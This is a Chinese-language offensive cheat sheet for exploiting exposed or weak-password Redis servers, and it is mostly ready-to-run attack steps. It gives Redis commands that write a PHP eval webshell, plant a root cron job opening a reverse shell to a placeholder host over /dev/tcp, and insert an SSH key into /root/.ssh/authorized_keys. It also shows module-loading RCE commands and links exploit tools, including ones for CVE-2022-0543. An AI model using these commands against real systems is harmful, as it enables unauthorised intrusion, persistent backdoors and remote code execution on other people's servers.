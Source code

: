 # Redis 漏洞利用
## 0x00 Introduction
redis是一个key-value存储系统。   

### 前置条件      
获取redis权限
- 未授权
- 弱口令

### 达成的漏洞利用效果
- 写任意文件
- 信息泄露
- 远程命令执行

## 0x01 漏洞利用

### 1. 信息泄露

#### (1)info命令

可以泄露操作系统信息，以此为后续漏洞利用做准备。   

### 2. 写任意文件->RCE

#### (1) 新建DB写文件->webshell
附件条件：
1. 同主机存在web服务
2. 已知网站路径
3. 具备写权限 
    
```
config set dir /var/www/html    
config set dbfilename webshell.php  
set shell "<?php @eval($_POST['shell']);?>"  
save  
```
#### (2) 新建DB写文件->计划任务反弹shell

```
redis-cli -h 192.168.1.11
config set dir /var/spool/cron
set re "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/8899 0>&1\n\n"
config set dbfilename root
save
```

#### (3) 新建DB写文件->公钥SSH连接
```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > re.txt
```
```
cat re.txt | redis-cli -h 192.168.1.11 -x set re
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```
本地连接：
```
ssh  -o StrictHostKeyChecking=no 192.168.1.1
```
### 3. 远程命令执行

#### (1) 主从同步->RCE
- 附加条件： redis 4.x-5.0.5
- 在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。  

#### Linux
- 漏洞利用： https://github.com/Ridter/redis-rce
- linux 命令执行模块（so）：https://github.com/RicterZ/RedisModules-ExecuteCommand.

redis-rce工具一键利用    
#### Windows
- 漏洞利用：https://github.com/r35tart/RedisWriteFile
- windows 命令执行模块（dll）:https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

```
python RedisWriteFile.py --auth 123qwe --rhost=10.20.3.97 --rport=6379 --lhost=10.10.10.31 --lport=2222 --rpath="C:\Users\test\Desktop" --rfile="exp.dll" --lfile="exp.dll" 

redis:
>module load C:\Users\test\Desktop\exp.dll 
>exp.e whoami
```
#### (2) Redis沙盒绕过（CVE-2022-0543）
- 附加条件： 2.2 <= redis < 5.0.13，2.2 <= redis < 6.0.15，2.2 <= redis < 6.2.5
- 漏洞利用：https://github.com/aodsec/CVE-2022-0543
#### （3）结合Jackson和JDK的漏洞利用
参考 [细数 redis 的几种 getshell 方法](https://paper.seebug.org/1169/)

## Ref
- https://www.freebuf.com/column/237263.html
